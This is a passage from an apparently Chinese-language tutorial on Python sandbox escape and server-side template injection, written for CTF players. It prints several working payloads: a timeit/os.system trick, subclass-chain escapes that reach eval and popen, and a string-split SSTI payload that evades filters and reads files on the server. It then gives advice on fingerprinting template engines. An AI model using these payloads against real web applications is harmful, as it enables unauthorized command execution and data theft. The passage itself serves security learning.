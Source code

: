 4.timeit 姿势

可以学习一下 2017 swpu-ctf 的一道沙盒 python 题，

这里不详说了，博大精深，我只意会一二。

```
import timeit
timeit.timeit("__import__('os').system('dir')",number=1)

import platform
print platform.popen('dir').read()
```

5. 收藏的一些 poc

```
().__class__.__bases__[0].__subclasses__()[59].__init__.func_globals.values()[13]['eval']('__import__("os").popen("ls  /var/www/html").read()' )

object.__subclasses__()[59].__init__.func_globals['linecache'].__dict__['o'+'s'].__dict__['sy'+'stem']('ls')

{{request['__cl'+'ass__'].__base__.__base__.__base__['__subcla'+'sses__']()[60]['__in'+'it__']['__'+'glo'+'bal'+'s__']['__bu'+'iltins__']['ev'+'al']('__im'+'port__("os").po'+'pen("ca"+"t a.php").re'+'ad()')}}
```

还有就可以参考一下 P 师傅的 [https://p0sec.net/index.php/archives/120/](https://p0sec.net/index.php/archives/120/)

对于一些师傅可能更偏向于实战，但是不幸的是实战中几乎不会出现 ssti 模板注入，或者说很少，大多出现在 python 的 ctf 中。但是我们还是理性分析下。

每一个（重）模板引擎都有着自己的语法（点）,Payload 的构造需要针对各类模板引擎制定其不同的扫描规则, 就如同 SQL 注入中有着不同的数据库类型一样。更改请求参数使之承载含有模板引擎语法的 Payload, 通过页面渲染返回的内容检测承载的 Payload 是否有得到编译解析, 不同的引擎不同的解析。所以我们在挖掘之前有必要对网站的 web 框架进行检查，否则很多时候 {{}} 并没有用，导致错误判断。

接下来附张图，实战中要测试重点是看一些 url 的可控，比如 url 输入什么就输出什么。前期收集好网站的开发语言以及框架，防止错误利用 {{}} 而导致错误判断。如下图较全的反映了 ssti 的一些模板渲染引擎及利用。

[![](https://xzfile.aliyuncs.com/media/upload/picture/20181221165627-4d167624-04fe-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20181221165627-4d167624-04fe-1.png)